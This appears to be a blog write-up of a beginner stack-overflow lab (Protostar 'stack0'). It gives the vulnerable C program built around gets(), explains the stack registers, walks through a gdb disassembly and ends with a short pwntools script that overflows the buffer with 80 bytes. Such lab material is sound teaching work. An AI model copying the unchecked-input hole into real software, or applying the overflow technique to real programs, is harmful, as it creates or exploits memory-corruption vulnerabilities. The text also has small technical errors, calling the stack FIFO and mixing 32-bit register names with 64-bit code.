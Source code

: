 # Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- We have 2 variables *modified* and *buffer* which are created in the stack.
- *modified* is an integer that the program checks to see if it's been altered unexpectedly. The `volatile` keyword is used to tell the compiler not to optimize this variable, as its value could be changed unexpectedly or arbitrarily.
- The *gets()* function is used -- input is loaded into buffer using *gets()*
- *gets()* is dangerous as it can be easily abused for buffer over flow.
- This is because *gets()* doesn't have a check for the number of inputs given in the stack, and it keep receiving input until the stack crashes -- which of course leads to stack buffer overflow.
- Knowing this we can overwrite the memory region where the *modified* variable is stored.

# Investigating further

Running `man gets` 
![Pasted image 20240709223941](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/b4c32f48-9808-494e-a0f6-5026a24d1868)
![Pasted image 20240709224151](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/eb6cf375-7356-4120-b574-c33e39455bce)



# The stack

#### EIP (Instruction Pointer)

The EIP register holds the memory address of the next instruction to be executed. It is not stored on the stack itself, but rather it is an architectural register in the CPU. **The EIP is used to keep track of the currently executing code.**

#### ESP (Stack Pointer)

The ESP register points to the top of the stack, which is the most recently pushed value. It is not directly stored on the stack, but it holds the memory address of the top of the stack. **ESP is used to access and manipulate data on the stack.**

#### EBP (Base Pointer)

The EBP register is used as a reference point for accessing local variables and function arguments on the stack. It is typically set to the value of ESP at the beginning of a function, providing a stable base address for referencing stack data. **EBP is pushed onto the stack when a function is called, and it is popped off when the function returns.**


- First the *modified* variable gets created, i.e. it gets pushed onto the stack(FIFO).
- Then the *buffer* which is an array of 64 characters gets created.
- *modified* variable gets pushed down to the stack.


# Disassembly 
We are going to disassemble our binary using *gdb/gef*

![Pasted image 20240709233340](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/f9462062-6acd-4f24-84e6-173dea56ff70)


# Disassembling the main function
```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x0000000000001149 <+0>:	push   rbp
   0x000000000000114a <+1>:	mov    rbp,rsp
   0x000000000000114d <+4>:	sub    rsp,0x60
   0x0000000000001151 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000001154 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x0000000000001158 <+15>:	mov    DWORD PTR [rbp-0x4],0x0
   0x000000000000115f <+22>:	lea    rax,[rbp-0x50]
   0x0000000000001163 <+26>:	mov    rdi,rax
   0x0000000000001166 <+29>:	mov    eax,0x0
   0x000000000000116b <+34>:	call   0x1040 <gets@plt>
   0x0000000000001170 <+39>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000001173 <+42>:	test   eax,eax
   0x0000000000001175 <+44>:	je     0x1188 <main+63>
   0x0000000000001177 <+46>:	lea    rax,[rip+0xe8a]        # 0x2008
   0x000000000000117e <+53>:	mov    rdi,rax
   0x0000000000001181 <+56>:	call   0x1030 <puts@plt>
   0x0000000000001186 <+61>:	jmp    0x1197 <main+78>
   0x0000000000001188 <+63>:	lea    rax,[rip+0xea2]        # 0x2031
   0x000000000000118f <+70>:	mov    rdi,rax
   0x0000000000001192 <+73>:	call   0x1030 <puts@plt>
   0x0000000000001197 <+78>:	mov    eax,0x0
   0x000000000000119c <+83>:	leave
   0x000000000000119d <+84>:	ret
End of assembler dump.
gef➤  

```

The `modified` variable and the buffer are separate variables in the program. However, due to the way memory is organized in the stack, these variables are located next to each other. When the `gets` function is called to read input into the buffer, and if the input is longer than the size of the buffer, it will overflow into the memory space of the `modified` variable, effectively changing its value.

- We are going to set **2** breakpoints before and after the **gets()** function to see what registers have changed.
```
gef➤  break *0x000000000000116b
Breakpoint 1 at 0x116b
gef➤  break *0x0000000000001170
Breakpoint 2 at 0x1170
```
- The first breakpoint is set at the **gets()** function.
- The second breakpoints is set at the instruction that loads the value of the **modified** variable.
- Doing the above, we will get an idea on where the data on the stack is stored.


# Using pwntools to exploit the binary

```
from pwn import *

# Establish a process to the binary
p = process('/opt/exploitdev/stacked')

# Create the payload
# The 'A'*80 will overflow the buffer and modify the 'modified' variable
payload = ('A'*80).encode()

# Send the payload
p.sendline(payload)

# Receive the output
output = p.recvline()

# Print the output
print(output)

# Close the process
p.close()

```

![Pasted image 20240710130427](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/00c3b37c-5596-4efb-9c75-391ac472270f)


Thank you.
